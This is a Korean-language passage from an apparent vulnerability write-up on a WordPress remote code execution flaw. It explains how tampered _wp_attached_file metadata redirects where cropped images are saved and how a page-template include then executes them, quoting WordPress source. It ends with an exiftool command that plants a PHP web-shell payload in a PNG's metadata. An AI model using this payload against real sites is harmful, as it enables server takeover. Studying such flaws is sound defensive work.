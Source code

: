 eidt_post() 함수에서 POST 데이터를 별도의 필터링 없이 **$post_data** 변수에 저장하여 사용하고, wp_update_post() → wp_insrt_post() 를 거친 POST 값이 update_post_meta 함수에 의해 DB에 저장된 메타데이터를 업데이트 한다.  이때 **_wp_attached_file** 값을 업데이트하여 이미지를 가져 올 메타 데이터상의 경로를 변조시킬 수 있다. 

### 수정된 메타데이터를 통한 파일 경로 조작

```php
#wp-admin/includes/image.php
function wp_crop_image( $attachment_id, $src_x, ...) {
⋮
$src_file = get_attached_file( $src );
⋮
$result = $editor->save( $dst_file );
```

```php
#/wp-includes/post.php
function get_attached_file( $attachment_id, $unfiltered = false ) {
	$file = get_post_meta( $attachment_id, '_wp_attached_file', true );
	if ( $file && 0 !== strpos( $file, '/' ) && ! preg_match( '|^.:\\\|', $file ) && ( ( $uploads = wp_get_upload_dir() ) && false === $uploads['error'] ) ) {
			$file = $uploads['basedir'] . "/$file";
	}

	if ( $unfiltered ) {
		return $file;
	}
⋮
return apply_filters( 'get_attached_file', $file, $attachment_id );
```

파일 크기 조정시 호출되는 **wp_crop_image()** 함수는 **get_attached_file()** 함수를 통해 파일이 저장될 경로를 가져오는데, **get_attached_file()** 함수는 **get_post_meta()** 함수를 통해 DB에 저장된 **_wp_attached_file** 로 부터 파일의 경로를 가져와 수정된 이미지를 저장한다. 

위 두가지 문제점으로 인하여 결과적으로 post에 의해 조작된 파일 경로를 가져와 그 위치에 수정한 이미지를 저장하는 동작이 발생하는 것. 

### 원격 코드 실행의 원리

워드프레스 페이지의 테마는 wp-content/themes 디렉토리에 저장되어 사용되는데, 게시글 별 **_wp_page_template** post 메타데이터를 설정하여 해당 테마 디렉토리에 있는 파일을 template의 형태로 include() 함수를 실행하여 사용할 수 있다.

이때 php에서 include() 함수를 사용하듯이 해당 파일이 게시글에 포함되므로, php 코드가 포함된 이미지가 include() 된다면 php 페이지처럼 동작하여 php코드 실행이 가능해진다.

---

### 이미지 메타데이터 수정

```bash
$ exiftool test.png -CopyrightNotice="<?=\`\$_GET[0]\`?>"
$ exiftool test.png
ExifTool Version Number         : 10.80
File Name                       : test.png
Directory                       : .
File Size                       : 157 kB
File Modification Date/Time     : 2021:05:05 09:43:34+00:00
File Access Date/Time           : 2021:05:05 09:43:53+00:00
File Inode Change Date/Time     : 2021:05:05 09:43:34+00:00
File Permissions                : rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 480
Image Height                    : 270
Bit Depth                       : 8
Color Type                      : RGB with Alpha
```